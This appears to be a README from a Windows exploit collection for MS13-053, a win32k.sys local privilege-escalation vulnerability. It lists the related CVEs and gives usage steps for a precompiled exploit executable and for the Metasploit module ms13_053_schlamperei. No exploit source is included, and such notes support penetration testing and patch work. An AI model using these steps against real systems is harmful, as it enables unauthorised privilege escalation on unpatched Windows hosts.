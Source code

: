 # MS13-053
```
win32k.sys in the kernel-mode drivers in Microsoft Windows XP SP2 and SP3, 
Windows Server 2003 SP2, Windows Vista SP2, Windows Server 2008 SP2 and R2 SP1, and Windows 7 SP1 does not properly handle objects in memory, 
which allows local users to gain privileges via a crafted application, aka "Win32k Information Disclosure Vulnerability."
```

Vulnerability reference:
 * [MS13-053](https://technet.microsoft.com/library/security/ms13-053)  
 * [CVE-2013-1300](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2013-1300)
 * [CVE-2013-1340](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2013-1340)
 * [CVE-2013-1345](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2013-1345)
 * [CVE-2013-3129](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2013-3129)
 * [CVE-2013-3167](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2013-3167)
 * [CVE-2013-3172](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2013-3172)
 * [CVE-2013-3173](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2013-3173)
 * [CVE-2013-3660](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2013-3660)  

## Usage
```
c:\> MS13-053.exe
```
![2003](2003.png)  

## load the module within the Metasploit
[msf](https://www.rapid7.com/db/modules/exploit/windows/local/ms13_053_schlamperei)
```
msf > use exploit/windows/local/ms13_053_schlamperei
msf exploit(ms13_053_schlamperei) > show targets
    ...targets...
msf exploit(ms13_053_schlamperei) > set TARGET <target-id>
msf exploit(ms13_053_schlamperei) > show options
    ...show and set options...
msf exploit(ms13_053_schlamperei) > exploit
```

## References
* [Adobe, Microsoft Release Critical Updates](https://krebsonsecurity.com/tag/ms13-053/)  
* [ms13_053_schlamperei.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms13_053_schlamperei.rb)  
